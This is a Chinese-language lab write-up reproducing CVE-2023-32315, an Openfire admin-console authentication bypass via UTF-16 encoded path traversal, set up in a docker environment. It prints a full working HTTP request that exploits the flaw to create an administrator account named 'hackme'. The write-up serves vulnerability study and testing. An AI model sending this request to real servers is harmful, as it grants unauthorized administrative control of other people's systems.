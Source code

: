 # Openfire管理后台认证绕过漏洞（CVE-2023-32315）

Openfire 是根据开放源 Apache 许可获得许可的实时协作（RTC）服务器。

在Openfire版本4.7.4和4.6.7及以前，Openfire的Web管理后台存在一处目录穿越漏洞，这将允许攻击者绕过权限校验访问所有受限页面。

参考文档：

- <https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm>
- <https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w>

## 漏洞环境

执行如下命令启动一个4.7.4版本的Openfire:

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:9090`你将会被强制跳转到登录页面。

## 漏洞复现

十多年前，Openfire管理后台中曾被发现一处路径穿越漏洞，CVE-2008-6508。攻击者可以利用`/setup/setup-/../../[page].jsp`来绕过权限校验并访问任意后台页面。

从那以后，Openfire增加了对于路径穿越问题的防护策略，用以抵御这个漏洞。但是因为后来内置的Web服务器的升级，引入了对UTF-16字符支持的非标准URL，但前面的防护策略并没有考虑到这一点。

这样也导致我们可以使用UTF-16字符来绕过路径穿越的防护，再次复活路径穿越漏洞，`/setup/setup-/%u002e%u002e/%u002e%u002e/[page].jsp`。

我们可以发送如下数据包，利用该路径穿越漏洞创建一个新的管理员：

```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken


```

虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为`hackme`：

![](1.png)

之后我们便可以使用这个账号登录管理后台：

![](2.png)

